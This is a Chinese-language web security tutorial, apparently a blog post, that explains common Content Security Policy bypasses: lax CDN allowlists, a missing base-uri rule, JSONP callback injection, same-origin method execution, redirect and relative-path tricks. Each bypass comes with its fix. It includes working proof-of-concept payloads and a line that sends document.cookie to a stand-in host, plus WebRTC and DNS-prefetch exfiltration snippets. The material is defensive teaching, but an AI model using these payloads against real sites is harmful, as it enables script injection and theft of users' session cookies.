

# 繞過你的防禦：常見的 CSP bypass

之前有提過開發者可以設置 CSP 當作守護網站的第二道防線，讓攻擊者就算能夠插入 HTML，也不能執行 JavaScript，大幅降低了影響程度。由於 CSP 涉及到的範圍很廣，不只有 script，連 style 或是 img 也在裡面，因此每個網站的 CSP 都會不太一樣，要根據自己網站的內容去設定 CSP 才是正確的道路。

但是沒設定好的 CSP，其實就跟沒有設是差不多的，這篇就讓我來帶你看一下常見的 CSP 繞過方式有哪些。

## 經由不安全的 domain 的繞過

如果你的網站上面有用到一些公開的 CDN 平台來載入 JS，像是 [unpkg.com](https://unpkg.com/) 之類的，有可能會直接把 CSP 的規則設定成：`script-src https://unpkg.com`。

在之前講 CSP 的時候，最後就有問了大家這樣寫有什麼問題，而現在就來公佈解答。

這樣做的問題是如此一來，就等於是可以載入這個 origin 上的所有 library。而針對這種情形，已經有人寫了一個叫做 [csp-bypass](https://github.com/CanardMandarin/csp-bypass) 的 library 並且上傳上去，來看個範例：

``` html
<!DOCTYPE html>
<html>
<head>
  <meta http-equiv="Content-Security-Policy" content="script-src https://unpkg.com/">
</head>
<body>
  <div id=userContent>
    <script src="https://unpkg.com/react@16.7.0/umd/react.production.min.js"></script>
    <script src="https://unpkg.com/csp-bypass@1.0.2/dist/sval-classic.js"></script>
    <br csp="alert(1)">
  </div>
</body>
</html>
```

我只想載入 React 但我懶得把 CSP 寫完整，只寫了 `https://unpkg.com/`，讓攻擊者可以載入繞過 CSP 專用的 library `csp-bypass`。

解法就是直接開大絕不要用這些公開的 CDN 了，或者是把 CSP 中的路徑寫完整，不要只寫 `https://unpkg.com/`，而是寫 `https://unpkg.com/react@16.7.0/`。

## 經由 base 的繞過

在設定 CSP 時，一個常見的做法是利用 nonce 來指定哪些 script 可以載入，就算被攻擊者注入 HTML，在不知道 nonce 的前提下他也無法執行程式碼，像這樣：

``` html
<!DOCTYPE html>
<html>
<head>
  <meta http-equiv="Content-Security-Policy" content="default-src 'none'; script-src 'nonce-abc123';">
</head>
<body>
    <div id=userContent>
      <script src="https://example.com/my.js"></script>
    </div>
    <script nonce=abc123 src="app.js"></script>
</body>
</html>
```

打開 console 就會看到錯誤：

> Refused to load the script 'https://example.com/my.js' because it violates the following Content Security Policy directive: "script-src 'nonce-abc123'". Note that 'script-src-elem' was not explicitly set, so 'script-src' is used as a fallback.

雖然看起來很安全，但是忘記設定了一個指示：`base-uri`，這個指示並不會 fallback 到 default 去。[base](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/base) 這個標籤的作用是改變所有相對路徑所參考的位置，例如說：

``` html
<!DOCTYPE html>
<html>
<head>
  <meta http-equiv="Content-Security-Policy" content="default-src 'none'; script-src 'nonce-abc123';">
</head>
<body>
    <div id=userContent>
      <base href="https://example.com/">
    </div>
    <script nonce=abc123 src="app.js"></script>
</body>
</html>
```

因為加上了 `<base href="https://example.com/">`，所以 script 載入的 `app.js` 變成了 `https://example.com/app.js`，讓攻擊者可以載入自己 server 上的腳本！

阻止這個繞過方式的解法是在 CSP 中加上 `base-uri` 的規則，例如說用 `base-uri 'none'` 阻擋所有的 base 標籤。由於大多數網站應該都沒有需要用到 `<base>` 的需求，可以大膽地加上這個指示。

## 經由 JSONP 的繞過

JSONP 是一種能夠跨來源取得資料的方式，不過我自己覺得比較像是一種古老的、在 CORS 還沒成熟前所出現的 workaround。

一般來說瀏覽器會阻止你跟非同源的網頁互動，例如說在 `https://blog.huli.tw` 中執行：`fetch('https://example.com')`，會出現：

> Access to fetch at 'https://example.com/' from origin 'https://blog.huli.tw' has been blocked by CORS policy: No 'Access-Control-Allow-Origin' header is present on the requested resource. If an opaque response serves your needs, set the request's mode to 'no-cors' to fetch the resource with CORS disabled.

這個 CORS 錯誤，導致你沒辦法取得 response。

但是有幾種元素的載入並不受到同源政策的限制，例如說 ``，畢竟圖片本來就有可能從四面八方載入，而且我們用 JavaScript 也讀不到圖片的內容，所以沒什麼問題。

還有 `<script>` 也是沒有限制的，例如說在載入 Google Analytics 或是 Google Tag Manager 的時候就是直接寫 `<script src="https://www.googletagmanager.com/gtag/js?id=UA-XXXXXXXX-X"></script>`，從來都沒被限制過對吧？

因此，就出現了這樣一種交換資料的方式，假設現在有個 API 可以拿使用者的資料，他們會提供這樣一個路徑：`https://example.com/api/users`，回傳的內容並不是 JSON，而是一段 JavaScript 程式碼：

``` js
setUsers([
  {id: 1, name: 'user01'},
  {id: 2, name: 'user02'}
])
```

因此，我的網頁就可以透過 `setUsers` 這個 function 去接收資料：

``` html
<script>
  function setUsers(users) {
    console.log('Users from api:', users)
  }
</script>
<script src="https://example.com/api/users"></script>
```

但是這樣固定寫死函式名稱很不方便，因此後來常見的一個格式是：`https://example.com/api/users?callback=anyFunctionName`，回傳的內容就變成：

``` js
anyFunctionName([
  {id: 1, name: 'user01'},
  {id: 2, name: 'user02'}
])
```

如果 server 端沒有做好驗證，允許傳入任意字元的話，就可以使用這樣的網址：`https://example.com/api/users?callback=alert(1);console.log`；如此一來，回應就變成：

``` js
alert(1);console.log([
  {id: 1, name: 'user01'},
  {id: 2, name: 'user02'}
])
```

成功在回覆裡面插入了我們想要的程式碼，而這個技巧就可以運用在 CSP 的繞過上面。

舉例來說，假設我們允許了某一個網域的 script，而這個網域其實有一個支援 JSONP 的 URL，就可以利用它來繞過 CSP 執行程式碼，舉例來說：

``` html
<!DOCTYPE html>
<html>
<head>
  <meta http-equiv="Content-Security-Policy" content="script-src https://www.google.com https://www.gstatic.com">
</head>
<body>
  <div id=userContent>
    <script src="https://example.com"></script>
  </div>
  <script async src="https://www.google.com/recaptcha/api.js"></script>  
  <button class="g-recaptcha" data-sitekey="6LfkWL0eAAAAAPMfrKJF6v6aI-idx30rKs55Lxpw" data-callback='onSubmit'>Submit</button>
</body>
</html>
``` 

因為我們會用到 Google 的 reCAPTCHA，所以引入了相關的 script，也在 CSP 中新增了 `https://www.google.com` 這個 domain，否則 `https://www.google.com/recaptcha/api.js` 會被擋下來。

但好巧不巧，這個網域上就有一個支援 JSONP 的 URL：

``` html
<!DOCTYPE html>
<html>
<head>
  <meta http-equiv="Content-Security-Policy" content="script-src https://www.google.com https://www.gstatic.com">
</head>
<body>
  <div id=userContent>
    <script src="https://www.google.com/complete/search?client=chrome&q=123&jsonp=alert(1)//"></script>
  </div>
</body>
</html>
```

如此一來，攻擊者就可以利用它來繞過 CSP，成功執行程式碼。

在設置時如果要避免這種狀況，可以從幾個方向下手，第一個是把路徑設得嚴謹一點，例如說直接設定成 `https://www.google.com/recaptcha/`，而不是 `https://www.google.com`，就能降低一些風險（為什麼我會說降低風險而不是「完全防止風險」呢？之後就會知道了）。

第二個是去查有哪些網域有這種 JSONP 的 API 可以使用。

有一個叫做 [JSONBee](https://github.com/zigoo0/JSONBee) 的 repository，裡面有搜集很多知名網站的 JSONP URL，雖然有些已經被拿掉了，但依然可以參考一下。

而之前提過的 CSP Evaluator 其實也會貼心地提醒你：



## JSONP 繞過的限制

雖然說前面把 JSONP 講得很厲害，可以執行任意程式碼，但實際上有些網站會限制 JSONP 的 callback 參數，例如說只能輸入 `a-zA_Z.` 這些字元，所以我們頂多只能呼叫一個函式而已，而且參數還不能控制。

這時候還有什麼可以做呢？

有另一個叫做 [Same Origin Method Execution](https://www.someattack.com/Playground/About) 的名詞，簡稱為 SOME。大意就是雖然只能呼叫函式，但可以去找同源網站底下的方法來執行。

舉例來說，假設頁面上有個按鈕按了會出事，你可以用 `document.body.firstElementChild.nextElementSibling.click` 這一串的 JavaScript 程式碼去點擊它。因為上面這一串都是允許的字元，所以可以放到 JSONP 裡面：`?callback=document.body.firstElementChild.nextElementSibling.click`，用之前提過的 JSONP 去執行程式碼。

限制很多沒錯，但仍然是一種有機會用到的攻擊方式。在 2022 年由 Octagon Networks 發表的這篇：[Bypass CSP Using WordPress By Abusing Same Origin Method Execution](https://octagon.net/blog/2022/05/29/bypass-csp-using-wordpress-by-abusing-same-origin-method-execution/) 中，作者就利用了 SOME 在 WordPress 中安裝了一個惡意的外掛。

在文章中有提到可以用底下這一串落落長的程式碼去點擊「安裝外掛」的按鈕：

``` js
window.opener.wpbody.firstElementChild
  .firstElementChild.nextElementSibling.nextElementSibling
  .firstElementChild.nextElementSibling.nextElementSibling
  .nextElementSibling.nextElementSibling.nextElementSibling
  .nextElementSibling.nextElementSibling.firstElementChild
  .nextElementSibling.nextElementSibling.firstElementChild
  .nextElementSibling.firstElementChild.firstElementChild
  .firstElementChild.nextElementSibling.firstElementChild
  .firstElementChild.firstElementChild.click
````

SOME 的限制有點多，但如果真的找不到其他利用方式，也不失為是一個可以試試看的方法。

## 經由重新導向的繞過

當 CSP 碰到伺服器端的重新導向時，會怎麼處理呢？如果是重新導向到不同的 origin，而且本來就沒有在允許的名單裡面，一樣是失敗的。

但根據 [CSP spec 4.2.2.3. Paths and Redirects](https://www.w3.org/TR/CSP2/#source-list-paths-and-redirects) 中的描述，如果是導向到 path 不同的地方，就可以繞過原本的限制。

範例如下：

``` html
<!DOCTYPE html>
<html>
<head>
  <meta http-equiv="Content-Security-Policy" content="script-src http://localhost:5555 https://www.google.com/a/b/c/d">
</head>
<body>
  <div id=userContent>
    <script src="https://https://www.google.com/test"></script>
    <script src="https://https://www.google.com/a/test"></script>
    <script src="http://localhost:5555/301"></script>
  </div>
</body>
</html>
```

CSP 中設置了 `https://www.google.com/a/b/c/d`，由於路徑是會看的，所以 `/test` 跟 `/a/test` 的 script 都被 CSP 擋了下來。

而最後的 `http://localhost:5555/301` 在 server 端會重新導向到 `https://www.google.com/complete/search?client=chrome&q=123&jsonp=alert(1)//`，因為是重新導向，所以就不看 path 的部分，因此是可以載入的，就完成了對於 path 的繞過。

有了這個重新導向，就算路徑寫完整也沒用，一樣會被繞過。

所以最好的解法就是盡量確保網站中沒有 open redirect 的漏洞，在 CSP 規則中也沒有可以被利用的網域。

## 經由 RPO 的繞過

除了剛剛講的這種 redirect 來繞過 path 的限制，在有些伺服器上面可以利用一種叫做 RPO（Relative Path Overwrite）的技巧繞過。

例如說 CSP 允許的路徑是 `https://example.com/scripts/react/`，可以這樣繞過：

``` html
<script src="https://example.com/scripts/react/..%2fangular%2fangular.js"></script>
```

瀏覽器最後就會載入 `https://example.com/scripts/angular/angular.js`。

會這樣子是因為對瀏覽器來說，你載入的是一個位於 `https://example.com/scripts/react/` 底下，名為 `..%2fangular%2fangular.js` 的檔案，是符合 CSP 的。

但是對某些伺服器而言，在收到 request 時會先做 decode，就等於是在請求 `https://example.com/scripts/react/../angular/angular.js` 這個網址，也就是 `https://example.com/scripts/angular/angular.js`。

透過這種瀏覽器以及伺服器對於網址解析的不一致，就可以繞過路徑的規則。

解法的話就是不要在 server side 把 `%2f` 看成是 `/`，讓瀏覽器跟伺服器的解析一致，就沒這種問題了。

## 其他種類的繞過

剛剛講的那些基本上都是針對 CSP 規則的繞過方式，而接著要談的是「CSP 本身的限制」所產生的繞過方式。

舉例來說，假設有一個網站的 CSP 很嚴格，但是卻可以讓你執行 JavaScript：

``` html
<!DOCTYPE html>
<html>
<head>
  <meta http-equiv="Content-Security-Policy" content="default-src 'none'; script-src 'unsafe-inline';">
</head>
<body>
  <script>
    // any JavaScript code
  </script>
</body>
</html>
```

而目標是要偷到 `document.cookie`，這時候可以怎麼做？

偷不是問題，問題是要傳出去，因為 CSP 已經阻止了所有外部資源的載入，所以無論是用 `` 也好，`<iframe>` 也好還是 `fetch()` 或甚至是 `navigator.sendBeacon` 都一樣，全部都會被 CSP 擋住。

這時候有幾種方式可以把資料傳出去，第一種是 `window.location = 'https://example.com?q=' + document.cookie`，利用頁面跳轉，這個方式目前還沒有 CSP 規則可以限制，但未來可能會多出 [navigate-to](https://udn.realityripple.com/docs/Web/HTTP/Headers/Content-Security-Policy/navigate-to) 這個規則。

第二種是利用 WebRTC，程式碼如下（來自 [WebRTC bypass CSP connect-src policies #35](https://github.com/w3c/webrtc-nv-use-cases/issues/35)）：

``` js
var pc = new RTCPeerConnection({
  "iceServers":[
      {"urls":[
        "turn:74.125.140.127:19305?transport=udp"
       ],"username":"_all_your_data_belongs_to_us",
      "credential":"."
    }]
});
pc.createOffer().then((sdp)=>pc.setLocalDescription(sdp);
```

目前也沒有方式可以限制它來傳輸資料，但未來也可能會有 [webrtc](https://w3c.github.io/webappsec-csp/#directive-webrtc) 這個規則。

第三種則是 DNS prefetch：`<link rel="dns-prefetch" href="https://data.example.com">`，把你想傳送的資料當成 domain 的一部分，就可以透過 DNS query 的方式傳出去。

以前曾經有過一個叫做 [prefetch-src](https://bugs.chromium.org/p/chromium/issues/detail?id=801561) 的規則，但後來規格改了，變成這些 prefetch 系列應該遵守 `default-src`，這個功能 Chrome 在 112 的時候才有：[Resoure Hint "Least Restrictive" CSP](https://chromestatus.com/feature/5553640629075968)。

總之呢，雖然 `default-src` 看似是封鎖所有對外連線的管道，但其實不然，還是可以透過一些神奇的方法把資料給傳出去，但或許有天當 CSP 的規則越來越完善，就能做到滴水不漏（不知道那天還多遠就是了）。

## 小結

在這篇裡面我們看到了一些常見的 CSP 繞過手法，會發現好像其實還滿多種的。

而且當 CSP 中的 domain 越來越多時，就會越難排除掉有問題的 domain，增加額外的風險。除此之外，運用第三方服務也是有一定的風險，例如說上面提過的 public CDN 或是 google 的 CSP bypass 等等，這些都需要注意。

要寫出完全沒問題的 CSP 其實很難，需要時間慢慢淘汰掉不安全的寫法，但是在這個許多網站連 CSP 都還沒有的年代，還是老話一句：「先加上 CSP 吧，有問題也沒關係，之後再來慢慢調整」。
